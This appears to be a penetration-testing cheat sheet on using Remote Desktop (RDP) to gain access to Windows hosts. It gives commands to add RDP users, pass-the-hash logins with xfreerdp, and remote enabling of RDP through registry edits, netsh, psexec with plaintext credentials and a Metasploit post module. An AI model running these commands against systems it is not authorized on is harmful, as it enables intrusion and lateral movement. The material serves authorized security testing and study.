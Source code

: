 ```yaml
---
description: >-
  How to use RDP (Remote desktop protocol) to gain access to a host, rdp runs on
  port 3389 by default in windows.
---
```


# Remote Desktop

A user need to be part of the "Remote Desktop Users" in order to login to the host via RDP.

To add user to the "Remote Desktop users" run:

```text
net localgroup "Remote Desktop Users" UserLoginName  /add
```

## rdesktop

Remote Desktop for windows with share and 85% screen: 

`rdesktop -u username -p password -g 85% -r disk:share=/tmp/share 10.10.10.10` 

## xfreerdp

**Login using hash:**

`Xfreerdp /u:admin /d:win2012 /pth:[hash] /v:192.168.0.1` 

When CredSSP is required: 

`xfreerdp --plugin rdpdr --data disk:home:/tmp -- -f -u john 192.168.0.44` 

* To exit press 'ctrl+alt+enter' 

## remmina 

install remmina:

`apt install remmina`

have a rdp client by default which you can use to connect.

## Enable RDP

### Enable rdp from registry

```text
reg add "\\host\HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Enable from netsh

```text
netsh advfirewall set service remoteadmin enable 
netsh advfirewall set service remotedesktop enable
```

### Enable using psexec

```text
psexec \\host reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
/usr/local/bin/psexec.py user:password@10.0.0.1 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

```

## Enable using metasploit

```text
use post/windows/manage/enable_rdp
msf5 post(windows/manage/enable_rdp) > run

[*] Enabling Remote Desktop
[*] 	RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[+] 	RDP Service Started
[*] 	Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20200520112125_default_10.50.30.103_host.windows.cle_789147.txt
[*] Post module execution completed
msf5 post(windows/manage/enable_rdp) > 

```

